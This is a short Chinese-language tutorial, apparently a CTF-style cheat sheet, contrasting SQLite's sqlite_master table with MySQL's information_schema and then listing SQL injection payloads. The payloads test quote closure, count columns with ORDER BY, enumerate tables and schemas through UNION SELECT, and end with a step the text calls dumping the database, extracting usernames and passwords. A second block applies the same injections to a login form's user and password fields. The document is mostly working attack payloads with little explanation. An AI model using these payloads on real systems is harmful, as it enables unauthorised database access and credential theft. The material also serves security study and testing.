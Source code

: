 
## **sqlite和mysql的不同**

熟悉MySQL数据库的人都知道，MySQL中有一个名为information_schema的系统库，里面包含了所有MYSQL数据库中库名，表名，列名的信息，那么SQLITE数据库有没有呢？
答案当然是没有的。对于SQLITE而言，并没有库的概念，而是直接对象就是表了，所以SQLITE没有系统库，但是它是存在系统表的，这个表名为sqlite_master

sqlite 注入的示例payload：
```
按照正常的sql注入步骤列出每一步的payload

第一步： 跟mysql一样 先试 sql语句的闭合方式
?id=' //报错
?id=' --+ //不报错

第二步： 测字段数
?id=' order by 3 --+ //不报错
?id=' order by 4 --+ //报错

第三步：可以查看一下sqlite的版本信息（没什么用），或者 直接查看数据库中的所有的表名
?id=' union select 1,2,sqlite_version() --+
?id=' union select 1,2,group_concat(tbl_name) from sqlite_master where type='table' --+

第四步：通过查询创建表的sql语句，来得到表的结构
?id=' union select 1,2,sql from sqlite_master where type='table' and tbl_name='users' --+

第五步：脱库
?id=' union select 1,group_concat(username),group_concat(password) from users limit 0,1 --+
```

```
usr=' union select 1,group_concat(tbl_name) from sqlite_master where type='table'--&pw= //查所有表
usr=' union select 1,group_concat(sql) from sqlite_master where tbl_name='Users'--&pw= //查表所有字段
//查所有内容
usr=' union select 1,group_concat(id) from Users--&pw=1
usr=' union select 1,group_concat(name) from Users--&pw=1
usr=' union select 1,group_concat(password) from Users--&pw=1
usr=' union select 1,group_concat(hint) from Users--&pw=
```

